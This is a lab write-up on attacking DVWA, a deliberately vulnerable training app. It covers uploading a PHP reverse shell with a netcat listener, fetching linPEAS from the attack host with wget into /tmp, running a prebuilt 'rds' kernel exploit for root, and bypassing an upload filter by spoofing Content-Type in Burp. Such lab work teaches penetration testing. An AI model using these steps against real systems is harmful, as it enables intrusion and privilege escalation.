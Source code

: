 # Post Exploitation and Privilege Escalation

### Reverse Shell in DVWA (low security)

* Find a reverse shell to use

Since the DVWA is written in PHP, we will have to use a PHP based reverse shell. The first result after a Google search [is the pentestingmonkey revrse shell](https://github.com/pentestmonkey/php-reverse-shell).

We will need to clone the repo:
![Screenshot 2022-03-10 164630](https://user-images.githubusercontent.com/19424915/157690757-aef2721f-d59c-472a-a9e0-e4defd4cd045.png)

* Adjust the Reverse Shell to match our demands

We will first need to find out the attack machine (Kali) IP address:
![Screenshot 2022-03-10 165807](https://user-images.githubusercontent.com/19424915/157691425-980327f4-cce9-4bd3-b674-0f64511ece2f.png)

Then, we can edit the revese shell code with our IP address and the port we will be listening to:
![Screenshot 2022-03-10 171526](https://user-images.githubusercontent.com/19424915/157692165-ca94d8d0-1a7c-4b69-8af7-3c3e25ed6d3b.png)

* Acheive Reverse Shell

We need to start a netcat instace on our attack machine which is going to listent to the port we have already specified in the Reverse Shell code - in our case "12345".
![Screenshot 2022-03-10 172410](https://user-images.githubusercontent.com/19424915/157695024-a57e8bdf-d0b3-484f-8da1-2f4cf17ffc84.png)

Once we have a listener up and ready we can upload and start the Reverse Shell.
![Screenshot 2022-03-10 172219](https://user-images.githubusercontent.com/19424915/157695200-99dd92b1-26fc-4fe6-8bb5-3cbc7a66a602.png)
![Screenshot 2022-03-10 172443](https://user-images.githubusercontent.com/19424915/157695224-d5e75372-c7a0-4c0a-8eaa-8927eb50b030.png)

As a result, we acheive remote access to the atacked machine (DVWA) terminal.
![Screenshot 2022-03-10 172505](https://user-images.githubusercontent.com/19424915/157695658-6ac33e32-d544-488f-a1d2-327bb03c730c.png)

### Find out DVWA vulnerabilities

* Get linPEAS

We will need a tool which will be responsible for giving us a vulnarability report for DVWA. We can user linPEAS to tackle this chellenge.
![Screenshot 2022-03-10 174233](https://user-images.githubusercontent.com/19424915/157699350-26f92e17-573d-415b-8e8c-ffe975460e9c.png)
![Screenshot 2022-03-10 174458](https://user-images.githubusercontent.com/19424915/157699369-7c765eb6-ff8f-43f8-a7ca-4941616a01cf.png)

* Upload linPEAS on DVWA

Now, we will have to somehow upload the linpeas script on our attacked machine. We can acheive this by serving the directory with the desired script file and than we can download it from the DVWA reverse shell.

For serving the linPEAS directory we can use a simple python http server.
![Screenshot 2022-03-10 220737](https://user-images.githubusercontent.com/19424915/157745874-676200e1-8acd-4b30-ace2-6ac6cd45c9d0.png)

Using the reverse shell we can download the `linpeas.sh` file from our http server. In our case, since the server listens on port `3000`, we will have to run `wget 10.0.2.15:3000/linpeas.sh`. If we try to simply run the command, we will receive a `permission denied` error, which obviously means that our user (`nobody`) cannot write in the current directory. So, we will need to find a directory where we can have write privileges. The most common linux directory with such description is the `/tmp` directory. It is used for files that are temporarily required by the system (Linux based). Which mean that most probably this directory will allow us to write in it. We can verify that by running `ls -la` which will list us the directories and their permissions.

![Screenshot 2022-03-11 002352](https://user-images.githubusercontent.com/19424915/157764788-cee07e81-3e0d-49bb-8d60-3e0126a60a58.png)

Since we have found a place to write, we can step further and download the script in the `/tmp` dir.

![Screenshot 2022-03-10 183107](https://user-images.githubusercontent.com/19424915/157765177-69091530-cb95-40c3-bc9f-70bd5e29a81a.png)

We have the script we need, we can go and just run it with `./linpeas.sh`. However, we again hit a `permission denied` error. Running `ls -la` we can observe that the only privileges we have are `w` (write) and `r` (read), but we have no `x` (execute). So, we must add it - `chmod +x linpeas.sh`.

![Screenshot 2022-03-10 215055](https://user-images.githubusercontent.com/19424915/157766026-9cf5cda3-2fdc-4822-9dd3-84b04d5671aa.png)
 
 Finally, we can run the script and analyze the result. The report is еxhaustive and contains almost everything we need to know about the attacked machine.
 
 ![Screenshot 2022-03-10 215400](https://user-images.githubusercontent.com/19424915/157766375-a3d6b611-7e51-4b95-b330-b191ca8ecac8.png)

### Most probable exploits

In order to find out the most probable exploits, we can use a great tool called [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester). 

We can use the same approach as we used for the linPEAS script. We will need to:

1. Clone the repo from github;

![Screenshot 2022-03-11 160025](https://user-images.githubusercontent.com/19424915/157884600-c7d9bff5-c0d0-4a5b-900b-582760b2bf5b.png)
![Screenshot 2022-03-11 160141](https://user-images.githubusercontent.com/19424915/157884636-b0050c83-8129-48b7-913f-295538a3514e.png)

2. Serve the directory with the file we need;

![Screenshot 2022-03-11 160510](https://user-images.githubusercontent.com/19424915/157884821-14da417f-e26a-402b-9372-3eb7cbd82d70.png)

3. Download the script in the `/tmp` dir of the DVWA and make sure that we have the correct privileges to execute the file;

![Screenshot 2022-03-11 160728](https://user-images.githubusercontent.com/19424915/157885169-4ccb5522-542c-4192-9f6e-1bf5814bc457.png)

Finally, we can run the `linux-exploit-suggester.sh` script and analyze the results.

![Screenshot 2022-03-11 160912](https://user-images.githubusercontent.com/19424915/157885590-ef4f5d04-bd5b-4708-a72e-ce0e26997a9a.png)

As we can observe there are three `highly probable` exploits: `dirtycow 2`, `rds` and `can_bcm`.

### Escalate Privilege

Now, we can try to exploit and escalate our privilige on the attcked machine. We will try it by using `rds` exploit.

There are number of github repos containing different kernel exploits. We will be using [kernel-exploits](https://github.com/lucyoa/kernel-exploits). There is a `rds` executable file which could be direcly downloaded.

![Screenshot 2022-03-11 234036](https://user-images.githubusercontent.com/19424915/157975721-cfcb7ec1-7e2e-4d96-981d-052e610fcbd4.png)

We will have to simply transfer the file on the attcked machine and run it.

![Screenshot 2022-03-11 235647](https://user-images.githubusercontent.com/19424915/157975959-d3ef0b97-7950-49be-b4aa-66912e618e6c.png)

![Screenshot 2022-03-11 164128](https://user-images.githubusercontent.com/19424915/157975980-e8e1c30e-50b1-4318-a804-88ba60086da1.png)

![Screenshot 2022-03-11 164252](https://user-images.githubusercontent.com/19424915/157975994-72563ef5-c813-4dc3-b104-3ab797510939.png)

Great news! We have gained `root` user access to the attacked machine.

### Reverse Shell in DVWA (medium security)

We will use the same approach as we used for the low security case. We will need to somehow upload a reverse shell script in order to gain a remote access to the attacked machine. However, since the security level is higher, we will need to find a more innovative way to do that.

I have tried a couple of approaches to bypass the validation. First, tried to upload a normal `.jpg` file to verify the correct file type.

![Screenshot 2022-03-12 004004](https://user-images.githubusercontent.com/19424915/158017947-958faff9-00cc-481b-9754-2dd87bbc9bca.png)

Then I tried to: 
1. Upload a file with a couple of extensions - `php-reverse-shell.img.txt.php`; 
2. Upload a file with some capital letters in the extension - `php-reverse-shell.PHp`
3. Upload a file with `;` and `\` separators - `image.jpg;php-reverse-shell.php`, `image.jpg\php-reverse-shell.php`.

None of the above approaches was successful.

Finally, I tried to override the `Content-Type` of the `POST` http request which is resposible for uploading the file. To acheive that I did use `Burp`.

First, I had to intersept the `POST` request which uplaods the `php-reverse-shell.php` file.

![Screenshot 2022-03-12 023514](https://user-images.githubusercontent.com/19424915/158019691-e0ac683c-c657-408b-845f-fdbaef2ba8c5.png)

As we can observe, the content type of the request body is `application/x-php`. I had to override it with `image/jpeg`. To acheive that, sent the intersepted request to the `repeater` and just edited the `Content-Type` field.

![Screenshot 2022-03-12 023607](https://user-images.githubusercontent.com/19424915/158019809-d6d25cc9-7c89-4d01-acde-7aa2e413a9c9.png)

Making a request with the new `Content-Type` leads to a successful upload of the file to the server. Which means that the server validates only the `Content-Type` of the http request.

![Screenshot 2022-03-12 023637](https://user-images.githubusercontent.com/19424915/158019928-82c02d9b-6d4f-4caa-98d0-9ae6ff541307.png)

Now, we can navigate to the file and gain a remote access to the DVWA. Of course, we need to have a `netcat` listener running. 

![Screenshot 2022-03-12 023728](https://user-images.githubusercontent.com/19424915/158020050-baff31f0-db8d-438a-b62d-5a6f4e3dce69.png)

